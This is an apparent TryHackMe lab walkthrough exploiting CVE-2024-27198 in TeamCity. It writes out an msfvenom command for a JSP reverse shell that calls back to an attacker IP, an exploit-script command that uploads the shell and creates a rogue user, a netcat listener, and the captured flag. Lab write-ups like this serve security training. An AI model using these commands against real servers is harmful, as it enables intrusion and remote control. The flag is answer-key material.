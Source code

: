![Output](Images/1.png)

port 22, 80, 36401, 50000
![Output](Images/2.png)

![Output](Images/3.png)

![Output](Images/4.png)
### **Step-by-Step Explanation:**

1. **Generating the Reverse Shell JSP Payload:**
    
    bash
    
    Copy code
    
    `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.102.109 LPORT=4444 -f raw -o shell.jsp`
    
    - This command uses `msfvenom` to create a **JSP reverse shell payload**.
    - **LHOST** is your attacking machine’s IP (`10.11.102.109`).
    - **LPORT** is the port on which your netcat listener will receive the connection (`4444`).
    - **Output** is saved as `shell.jsp`.

---

2. **Uploading the Malicious Plugin:**
    
    bash
    
    Copy code
    
    `python3 CVE-2024-27198-RCE.py -t http://10.10.126.60:50000 -f shell.jsp`
    
    - This command uses the exploit script to **upload the `shell.jsp` reverse shell** as a malicious plugin to the vulnerable TeamCity instance at `10.10.126.60`.
    - The exploit successfully adds a new user (`ic3fjtsx`) and uploads the web shell under the plugin path:
        
        ruby
        
        Copy code
        
        `http://10.10.126.60:50000/plugins/1EYcIAkF/1EYcIAkF.jsp`
        

---

3. **Accessing the Web Shell:**
    
    bash
    
    Copy code
    
    `curl -u ic3fjtsx:mPmBrTvUyP http://10.10.126.60:50000/plugins/1EYcIAkF/1EYcIAkF.jsp`
    
    - Since the web shell is protected with authentication, you used the **new credentials** generated by the exploit (`ic3fjtsx:mPmBrTvUyP`).
    - This **confirms that the web shell is accessible** and ready to execute commands.

---

4. **Starting a Netcat Listener:**
    
    bash
    
    Copy code
    
    `nc -lvnp 4444`
    
    - This command starts your **listener** on port 4444 to receive the reverse shell.

---

5. **Navigating to the Target’s Filesystem:** You ran the following **`find`** command to search for the flag:
    
    bash
    
    Copy code
    
    `find / -name "flag.txt" 2>/dev/null`
    
    - The output shows that the flag is located at:
        
        arduino
        
        Copy code
        
        `/home/ubuntu/flag.txt`
        

---

6. **Retrieving the Flag:**
    
    bash
    
    Copy code
    
    `cd /home/ubuntu cat flag.txt`
    
    - This command navigates to the target user’s home directory and displays the content of the `flag.txt` file:
        
        Copy code
        
        `THM{faa9bac345709b6620a6200b484c7594}`
        

---

### **Summary:**

- You **exploited** the vulnerability in TeamCity by uploading a **JSP reverse shell plugin**.
- You **logged into the web shell** using the credentials generated by the exploit.
- You successfully **found the `flag.txt`** in `/home/ubuntu` and retrieved it using `cat`.
- The flag is:  
    **`THM{faa9bac345709b6620a6200b484c7594}`**

![Output](Images/5.png)
![Output](Images/6.png)
![Output](Images/7.png)